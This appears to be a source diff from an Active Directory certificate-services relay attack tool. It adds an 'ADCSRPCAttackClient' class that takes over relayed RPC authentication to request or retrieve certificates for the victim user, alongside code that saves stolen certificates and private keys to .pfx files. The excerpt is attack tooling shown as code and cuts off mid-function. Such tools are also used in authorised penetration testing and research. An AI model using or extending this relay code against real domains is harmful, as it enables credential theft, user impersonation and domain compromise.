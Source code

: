 ```diff
             self._run()
         except Exception as e:
             logging.error("Got error: %s" % e)
             if self.adcs_relay.verbose:
@@ -364,18 +433,198 @@
                 logging.info(
                     "Saved certificate and private key to %s" % repr("%s.pfx" % out)
                 )
 
         self.finish_run()
 
 
+class ADCSRPCAttackClient(ProtocolAttack):
+    def __init__(self, config, dce, username):
+        super().__init__(config, dce, username)
+
+        self.dce = dce
+        self.rpctransport = dce.get_rpc_transport()
+        self.stringbinding = self.rpctransport.get_stringbinding()
+
+        try:
+            if "/" in username:
+                self.domain, self.username = username.split("/")
+            else:
+                self.domain, self.username = "Unknown", username
+        except Exception as e:
+            print("Got error", e)
+
+    def run(self):
+        self.adcs_relay.attack_lock.acquire()
+
+        self.interface = RPCRequestInterface(parent=self.adcs_relay)
+        self.interface._dce = self.dce
+
+        try:
+            self._run()
+        except Exception as e:
+            logging.error("Got error: %s" % e)
+            if self.adcs_relay.verbose:
+                traceback.print_exc()
+            else:
+                logging.error("Use -debug to print a stacktrace")
+        finally:
+            self.adcs_relay.attack_lock.release()
+
+    def _run(self):
+        if (
+            not self.adcs_relay.no_skip
+            and (self.username + "@" + self.domain) in self.adcs_relay.attacked_targets
+        ):
+            logging.info(
+                "Skipping user %s since attack was already performed"
+                % repr(self.username + "@" + self.domain)
+            )
+            return
+
+        logging.info("Attacking user %s" % repr(self.username + "@" + self.domain))
+
+        request_id = self.adcs_relay.request_id
+        if request_id:
+            self.retrieve()
+        else:
+            self.request()
```